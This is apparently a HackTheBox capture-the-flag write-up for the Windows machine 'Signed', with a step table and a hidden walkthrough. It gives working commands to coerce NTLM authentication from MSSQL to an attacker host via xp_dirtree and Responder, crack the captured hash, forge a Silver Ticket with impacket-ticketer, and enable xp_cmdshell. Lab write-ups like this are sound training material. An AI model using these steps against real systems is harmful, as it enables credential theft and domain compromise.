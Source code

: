 # Signed

```
Difficulty: Medium
Operating System: Windows
Hints: True
```

 **Target:** `10.10.11.90`
 **Service:** Microsoft SQL Server 2022 (1433)

| Step | User / Access                  | Technique Used                                                                                                                                                                      | Result                                                                                                        |
| :--: | :----------------------------- | :---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | :------------------------------------------------------------------------------------------------------------ |
|   1  | (Local / Recon)                | `nmap -sVC`                                                                                                                                                                         | Discovered only MSSQL (1433) open on `10.10.11.90` running SQL Server 2022.                                   |
|   2  | `scott` (guest SQL)            | Provided creds → `impacket-mssqlclient scott:'Sm230#C5NatH'@10.10.11.90`                                                                                                            | Logged into SQL as low-privilege/guest account.                                                               |
|   3  | (attacker)                     | `EXEC xp_dirtree '\\\\ATTACKER_IP\\share'` + `Responder`                                                                                                                            | Triggered server to authenticate to attacker and captured `SIGNED\mssqlsvc` NTLMv2 hash.                      |
|   4  | (attacker)                     | `hashcat -m 5600 mssqlsvc.hash /usr/share/wordlists/rockyou.txt`                                                                                                                    | Cracked `mssqlsvc` password from captured NTLM hash.                                                          |
|   5  | `mssqlsvc` (service account)   | `impacket-mssqlclient -windows-auth SIGNED/mssqlsvc:'<pass>'@10.10.11.90`                                                                                                           | Possessed valid domain/service credentials (SQL still limited when used directly).                            |
|   6  | (attacker)                     | SQL enumeration (`sys.server_principals`, `sys.server_role_members`)                                                                                                                | Found `SIGNED\IT` has `sysadmin` on instance; discovered domain SID and RIDs (e.g., IT = 1105).               |
|   7  | (attacker)                     | Silver Ticket generation: `impacket-ticketer -nthash <nthash> -domain SIGNED.HTB -domain-sid <SID> -user-id <RID> -groups 512,519,1105 -spn MSSQLSvc/DC01.SIGNED.HTB:1433 mssqlsvc` | Forged TGS (Silver Ticket) embedding IT group RID so the service would accept sysadmin membership.            |
|   8  | `mssqlsvc` (via forged ticket) | Load ticket: `export KRB5CCNAME=mssqlsvc.ccache` + `impacket-mssqlclient -k -no-pass DC01.SIGNED.HTB -windows-auth`                                                                 | Authenticated as `SIGNED\mssqlsvc` **with dbo/sysadmin on the SQL instance** (IS_SRVROLEMEMBER returned `1`). |
|   9  | `mssqlsvc` (SQL dbo/sysadmin)  | `EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;`                                                                       | Enabled `xp_cmdshell` for command execution inside SQL Server.                                                |
|  10  | `mssqlsvc` (SQL dbo/sysadmin)  | `EXEC xp_cmdshell 'type C:\Users\mssqlsvc\Desktop\user.txt'`                                                                                                                        | Read `user.txt` (user flag) from `mssqlsvc`'s desktop.                                                        |

**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**

<!--

## Nmap Recon

```
nmap -sVC 10.10.11.90

Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-11 21:41 CEST
Nmap scan report for 10.10.11.90
Host is up (0.029s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-info:
|   10.10.11.90:1433:
|     Version:
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info:
|   10.10.11.90:1433:
|     Target_Name: SIGNED
|     NetBIOS_Domain_Name: SIGNED
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: SIGNED.HTB
|     DNS_Computer_Name: DC01.SIGNED.HTB
|     DNS_Tree_Name: SIGNED.HTB
|_    Product_Version: 10.0.17763
|_ssl-date: 2025-10-11T19:42:23+00:00; +23s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-10-11T19:16:20
|_Not valid after:  2055-10-11T19:16:20
Host script results:
|_clock-skew: mean: 22s, deviation: 0s, median: 22s
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.77 seconds
```



## Initial Access — MSSQL

**Initial credentials provided**

* **Username:** `scott`
* **Password:** `Sm230#C5NatH`

**Connect to MSSQL**

```bash
impacket-mssqlclient scott:'Sm230#C5NatH'@10.10.11.90
# Logged in as guest user with minimal privileges.
```



## NTLM Hash Capture & Cracking

### Responder setup

We coerce the SQL Server to authenticate to our machine using `xp_dirtree` (extended stored procedure).

```bash
sudo responder -I tun0
```

### Coerce Authentication from MSSQL

From the SQL session:

```sql
EXEC xp_dirtree '\\\\10.10.16.16\\share';
```

This triggers an SMB connection attempt from the SQL Server to the attacker, which Responder captures.

**Captured NTLMv2 Hash (example output):**

```
[SMB] NTLMv2-SSP Client   : 10.129.170.123
[SMB] NTLMv2-SSP Username : SIGNED\mssqlsvc
[SMB] NTLMv2-SSP Hash     : mssqlsvc::SIGNED:9bade5d933cee1b4:091BE064ACDC3C5EF68AFAAA<HASH>
```


![Signed](Pictures/htb_Signed_mssql_hash_capture.jpg)

### Crack the hash

```bash
hashcat -m 5600 mssqlsvc.hash /usr/share/wordlists/rockyou.txt
# Cracked Password: pur<PASS>
```

![Signed](Pictures/htb_Signed_passcrack.jpg)


## Authenticate with Domain Credentials

With the cracked password for `mssqlsvc`:

```bash
impacket-mssqlclient -windows-auth SIGNED/mssqlsvc:'pur<PASS>'@10.10.11.90
# Still logged in as guest user (on SQL), but now we possess valid domain credentials for mssqlsvc.
```



## SQL Server Enumeration

Query server principals, roles and linked servers.

```sql
-- Check server roles: who is sysadmin?
SELECT r.name AS role_name, mp.name AS member_name
FROM sys.server_role_members srm
JOIN sys.server_principals r ON srm.role_principal_id=r.principal_id
JOIN sys.server_principals mp ON srm.member_principal_id=mp.principal_id
WHERE r.name='sysadmin';

-- Find linked servers
SELECT srv.server_id, srv.name FROM sys.servers srv WHERE srv.name IN ('DC01',@@SERVERNAME);
```


**Notable findings**

* `SIGNED\IT` group has `sysadmin` role on the MSSQL instance.
* Found linked server: `DC01` (domain controller).

![Signed](Pictures/htb_Signed_Dump.jpg)


## Domain SID Extraction

```
SELECT SUSER_SID();
SID (hex): b'0105000000000005150000005b7bb0f398aa2245ad4a1ca44f040000'

Converting to readable format: - Domain SID: S-1-5-21-4089266779-11675<SID> - User RID: 1103

IT Group SID Discovery

SELECT name, sid FROM sys.server_principals WHERE name = 'SIGNED\IT';
IT Group SID: b'0105000000000005150000005b7bb0f398aa2245ad4a1ca451040000' - IT Group RID: 1105
```
![Signed](Pictures/htb_Signed_sid.jpg)
![Signed](Pictures/htb_Signed_sid_1103.jpg)

Python
```
def sid_from_hex(blob):
    b = bytes.fromhex(blob)
    rev = b[0]
    sub_count = b[1]
    id_auth = int.from_bytes(b[2:8], byteorder='big')
    subs = []
    offset = 8
    for i in range(sub_count):
        subs.append(int.from_bytes(b[offset:offset+4], byteorder='little'))
        offset += 4
    sid = "S-{}-{}".format(rev, id_auth) + "".join(f"-{s}" for s in subs)
    domain_sid = "S-{}-{}".format(rev, id_auth) + "".join(f"-{s}" for s in subs[:-1])
    rid = subs[-1] if subs else None
    return sid, domain_sid, rid

blob = "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"
print(sid_from_hex(blob))
```

![Signed](Pictures/htb_Signed_sid_IT_sid_Discovery.jpg)


## Silver Ticket Attack
Prerequisites

For Silver Ticket generation, we need: 
1. Service account NTLM hash (mssqlsvc) 
2. Domain SID 
3. Target user (Administrator - RID 500) 
4. Service Principal Name (SPN)

Calculate NTLM Hash
```
python3 -c 'import hashlib; print(hashlib.new("md4", "puXXXXXXXXXXXX".encode("utf-16le")).hexdigest())'
```

![Signed](Pictures/htb_Signed_NTLM_hash.jpg)

### System time sync (attacker host)

```bash
sudo ntpdate time.google.com
```

Observed output you provided:

```
2025-10-21 04:43:33.740931 (+0000) +0.014579 +/- 0.048432 time.google.com 2001:4860:4806:c:: s1 no-leap
```

> Note: Accurate system time on the attacker host is important for Kerberos ticket validity.

### Create Silver Ticket (impacket-ticketer)

```bash
impacket-ticketer \
  -nthash ef699384c3285c54128a3ee1ddb1a0cc \
  -domain SIGNED.HTB \
  -domain-sid S-1-5-21-4088429403-1159899800-2753317549 \
  -user-id 1103 \
  -groups 512,519,1105 \
  -spn MSSQLSvc/DC01.SIGNED.HTB:1433 \
  mssqlsvc
```

Observed tool output (captured from your session):

```
/home/z0n/venv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal
as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for SIGNED.HTB/mssqlsvc
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in mssqlsvc.ccache
```
![Signed](Pictures/htb_Signed_Silver_ticket_msssql.jpg)

### Load ticket and connect to MSSQL using kbr-based ticket

```bash
export KRB5CCNAME=mssqlsvc.ccache
impacket-mssqlclient -k -no-pass DC01.SIGNED.HTB -windows-auth
```


Captured session output (from your run):

```
/home/z0n/venv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232)
[!] Press help for extra shell commands
SQL (SIGNED\mssqlsvc  dbo@master)> SELECT IS_SRVROLEMEMBER('sysadmin');
    
-   
1   
```

This shows the forged ticket granted `dbo`/`sysadmin` privileges on the instance.

### Enable xp_cmdshell and read user flag

From the SQL prompt you ran:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell 'type C:\\Users\\mssqlsvc\\Desktop\\user.txt';
```

![Signed](Pictures/htb_Signed_User_flag.jpg)




## Key Takeaways

* `xp_dirtree` can coerce SMB authentication from SQL Server and leak NTLMv2 hashes.
* Captured service account credentials (NTLM or password) + Domain SID + correct group RIDs allow forging **Silver Tickets** without KDC interaction.
* The PAC must include the necessary group RIDs (e.g., `SIGNED\IT`) for the service to accept elevated privileges.
* With a valid Silver Ticket for `MSSQLSvc/DC01:1433` you can authenticate as a high-privilege account (here `mssqlsvc` with sysadmin) and enable `xp_cmdshell` to access local files.

-->
